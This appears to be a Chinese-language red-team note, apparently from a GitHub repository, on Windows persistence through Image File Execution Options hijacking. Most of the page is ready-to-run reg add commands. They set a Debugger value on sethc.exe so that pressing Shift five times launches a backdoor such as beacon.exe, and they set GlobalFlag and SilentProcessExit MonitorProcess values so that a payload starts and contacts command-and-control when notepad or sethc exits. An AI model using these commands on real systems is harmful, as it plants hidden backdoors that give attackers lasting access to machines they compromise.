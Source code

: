 ## Image File Execution Options

### 映像劫持

通过修改注册表路径IFEO（Image File Execution Options）的exe程序，然后进行重定向执行后门程序的过程

### 修改Debugger值

1. 运行某exe程序时候，系统会在注册表`Image File Execution Options`中寻找是否存在exe的项

```cmd
# 注册表路径
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options
```

2. 在IFEO中新添加一个项，取名sethc.exe

```cmd
# Usage
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /f
```

3. 新建一个字符串值Debugger，键值修改为后门存在的路径表，连续五次shitf触发sethc.exe程序，系统就会重定向到指定路径，执行beacon.exe成功上线

```cmd
# Usage
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "<path to executable>" /f

reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\Users\Administrator\Downloads\22.exe" /f
```

### GlobalFlag

`GlobalFlag` 注册表项中的十六进制值`0x200`启用进程的静默退出监视

ReportingMode 注册表项启用 Windows 错误报告进程 (WerFault.exe)，该进程将是“ **MonitorProcess** ” beacon.exe 的父进程。当记事本进程被终止时（用户已关闭记事本应用程序），有效负载将被执行，并且将与命令和控制建立通信。这将导致系统创建一个名为“ **WerFault.exe** ”的新进程，用于跟踪与操作系统、Windows 功能和应用程序相关的错误。有效负载将作为 Windows 错误报告（**WerFault.exe** ) 的子进程启动

```cmd
# Usage
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "<path to executable>"

# 记事本退出之后运行cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\Windows\System32\cmd.exe"

# 劫持shitf
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /f
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v GlobalFlag /t REG_DWORD /d 512 /f
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\sethc.exe" /v ReportingMode /t REG_DWORD /d 1 /f
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\sethc.exe" /v MonitorProcess /t REG_SZ /d "C:\beacon.exe" /f
```
